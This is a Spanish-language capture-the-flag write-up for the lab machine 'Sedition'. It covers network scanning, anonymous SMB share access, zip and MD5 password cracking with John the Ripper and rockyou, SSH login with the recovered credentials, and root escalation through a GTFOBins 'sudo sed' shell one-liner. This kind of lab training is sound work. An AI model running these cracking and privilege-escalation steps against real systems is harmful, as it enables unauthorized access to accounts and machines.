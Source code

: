 # Sedition (TheHackerLabs)
---
## ⚙️ Herramientas utilizadas
## Reconocimiento
### Arp-scan
```bash sudo arp-scan -I eth0 --localnet ```
```text 192.168.1.108   08:00:27:60:6a:ed       (Unknown) ```
- Resultado -> la ip víctima es 192.168.1.108
### Ping
```bash ping -c 1 192.168.1.108
```text PING 192.168.1.108 (192.168.1.108) 56(84) bytes of data.
64 bytes from 192.168.1.108: icmp_seq=1 ttl=64 time=1.63 ms
- Resultado -> ttl=64, por lo que es una máquina linux.
### Nmap
Lanzamos un nmap completo para comprobar los puertos abiertos:
nmap -p- -sS -sC -sV --open --min-rate=5000 -n -vvv -Pn 192.168.1.108 -oN escaneo.txt
Resultado -> puerrtos abiertos 139 y 445 (SMB) y 65535:
Nmap scan report for 192.168.1.108
Host is up, received arp-response (0.00024s latency).
Scanned at 2025-07-14 17:08:52 CEST for 13s
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE     REASON         VERSION
139/tcp   open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp   open  netbios-ssn syn-ack ttl 64 Samba smbd 4
65535/tcp open  ssh         syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 32:ca:e5:d1:12:c2:1e:11:1e:58:43:32:a0:dc:03:ab (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG/Kzfk09iAKKpRuJrSfx4A4WiSlvP++mk2g5NcP7Bfva4A0l0SZxeDNKXB6iJN1++qyQWE2OUVzLrZ8Gdjkn+M=
|   256 79:3a:80:50:61:d9:96:34:e2:db:d6:1e:65:f0:a9:14 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILvZ909p40dk+Vi+xYHAfVXI4wI0XGPS/fgHXpFI2mRP
MAC Address: 08:00:27:60:6A:ED (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
| smb2-time: 
|   date: 2025-07-14T15:09:04
|_  start_date: N/A
| nbstat: NetBIOS name: SEDITION, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SEDITION<00>         Flags: <unique><active>
|   SEDITION<03>         Flags: <unique><active>
|   SEDITION<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 58844/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 27853/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 57010/udp): CLEAN (Failed to receive data)
|   Check 4 (port 56717/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
### 🚨 ¿Puerto 65535 abierto?
Esto no es común. El puerto 65535 (el más alto del rango TCP) suele estar cerrado. Si está abierto y no se identifica el servicio (unknown), es muy probable que sea:
- Un servicio personalizado o camuflado (por ejemplo, un SSH oculto)
### SMBClient
smbclient -L 192.168.1.108 -N
Resultado:
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
backup          Disk      
IPC$            IPC       IPC Service (Samba Server)
nobody          Disk      Home Directories
Probar acceso sin contraseña a los recursos interesantes:
smbclient //192.168.1.108/nobody -N
Resultado:
smbclient //192.168.1.108/nobody -N

tree connect failed: NT_STATUS_ACCESS_DENIED
Ahrora probamos con backup:
smbclient //192.168.1.108/backup -N
smb: \> ls
  secretito.zip                       N      216  Sun Jul  6 19:02:31 2025
Descargamos secretito.zip:
get secretito.zip
Descomprimimos la carpeta secretito.zip pero nos pide contraseña:
unzip secretito.zip
Archive:  secretito.zip
[secretito.zip] password password:
JohnTheRipper
Crackeamos la contraseña con JohnTheRipper.
Sacamos el hash:
zip2john secretito.zip > hash
$ cat hash       
secretito.zip/password:$pkzip$1*2*2*0*22*16*f2e5967a*0*42*0*22*969d*ee16b094213a1612e10c6608d4c2a170383b6b429176dfb6baac253a70a84e202ae7*$/pkzip$:password:secretito.zip::secretito.zip
Le pasamos el rockyou.txt para buscar la contraseña del hash:
john --wordlist=/usr/share/wordlists/rockyou.txt hash

Descomprimimos secretito.zip:

Leemos password:
$ cat password 
elbunkermolagollon123
Tenemos una contraseña.
RPCClient
Buscamos usuarios:
rpcclient -U "" -N 192.168.1.108
querydispinfo

Encontramos el usuario cowboy
Puerto 65535 (SSH)
Ahora que tenemos un user y una password probamos a conectarnos al puerto 65535 (ssh):
ssh cowboy@192.168.1.108 -p 65535


Escalada de privilegios
Una vez dentro intentamos conseguir usuario root.

Leemos .bash_history:

Hay una BD, nos conectamos:
mariadb -u cowboy -pelbunkermolagollon123

Está hasheada la contraseña, la crackeamos:
debian:7c6a180b36896a0a8c02787eeafb0e4c 
Estamos en CrackStation:

Nos conectamos al usuario debian:

Comprobamos si podemos ejecutar algún comando como root:
sudo -l

Buscamos en GTFObins:

Lanzamos:
sudo sed -n '1e exec sh 1>&0' /etc/hosts


Flags
Flag usuario:
/home/debian/flag.txt
Flag root:
/root/root.txt